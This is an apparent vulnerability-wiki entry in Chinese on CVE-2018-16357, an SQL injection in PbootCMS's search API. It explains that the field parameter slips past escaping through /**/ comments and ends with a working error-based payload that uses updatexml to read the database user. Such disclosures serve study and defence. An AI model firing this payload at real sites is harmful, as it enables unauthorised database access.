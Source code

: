 （CVE-2018-16357）PbootCMS sql注入漏洞
======================================

一、漏洞简介
------------

PbootCMS是一款使用PHP语言开发的开源企业建站内容管理系统（CMS）。
PbootCMS中存在SQL注入漏洞。该漏洞源于基于数据库的应用缺少对外部输入SQL语句的验证。攻击者可利用该漏洞执行非法SQL命令。

二、漏洞影响
------------

三、复现过程
------------

    http://www.0-sec.org/api.php/Cms/search?#acode=1&num=1&order=1

参数\$field是我们可以控制的，去检查函数过滤器

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-16357)PbootCMSsql注入漏洞/media/rId24.png)

使用函数trim和escape字符串避免sql注入

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-16357)PbootCMSsql注入漏洞/media/rId25.png)

添加a\'会导致mysql语法错误，因此函数escape\\u字符串无效

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-16357)PbootCMSsql注入漏洞/media/rId26.png)

使用/\*\*/绕过

### payload:

    field=1)/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/user()),0x7e),1)#&keyword=title&scode=1
